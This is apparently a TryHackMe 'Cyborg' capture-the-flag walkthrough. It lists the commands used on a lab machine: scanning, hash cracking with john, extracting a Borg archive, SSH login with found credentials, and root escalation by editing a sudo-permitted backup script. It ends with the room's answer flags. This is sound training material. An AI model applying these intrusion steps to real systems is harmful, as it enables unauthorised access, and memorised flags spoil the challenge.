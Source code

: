 ```yaml
---
A box involving encrypted archives, source code analysis and more
---
```

## vpn

``` tryhackme-vpn
sudo openvpn WittyAle.ovpn
``` 

### ping

``` 
ping 10.10.181.155
```

### rustscan

```
rustscan -a 10.10.181.155 --ulimit 5000 -b 65535 -- -A 
```

### gobuster

```
gobuster dir --url http://10.10.181.155 -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x py,html,txt
```
==/admin , /etc==

 ~~10.10.181.155/etc/squid/passwd~~

`music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

### john

``` hash
john --wordlist=/usr/share/wordlists/rockyou.txt passwd 
```

```
 john passwd --show  
```

==cracked -> music_archive:squidward==
 
~~10.10.181.155/admin/admin.html~~
`download -> archive.tar`

### Borg Backup

```cyborg
tar -xf archive.tar
```

```
tree home
```

```
cd cyborg/home/field/dev
```

```
borg list final_archive 
```

==passphrase:  squidward==

```
borg list final_archive::music_archive
```

```
borg extract final_archive::music_archive
```

```
cat home/alex/Desktop/secret.txt
```
> shoutout to all the people who have gotten to this stage whoop whoop!"

```
cat home/alex/Documents/note.txt 
```
>Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

`alex:S3cretP@s3`

### ssh

```
ssh alex@10.10.181.155
```

### priv esc

```
sudo -l
```

==(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh==

```
chmod 777 /etc/mp3backups/backup.sh
```

```
nano /etc/mp3backups/backup.sh
```

`add #2 line -> sudo /bin/bash`

```root
sudo /etc/mp3backups/backup.sh 
```

- Scan the machine, how many ports are open? *2* 
- What service is running on port 22? *ssh*
- What service is running on port 80? *http*
- What is the user.txt flag? *flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}*
- What is the root.txt flag? *flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}*




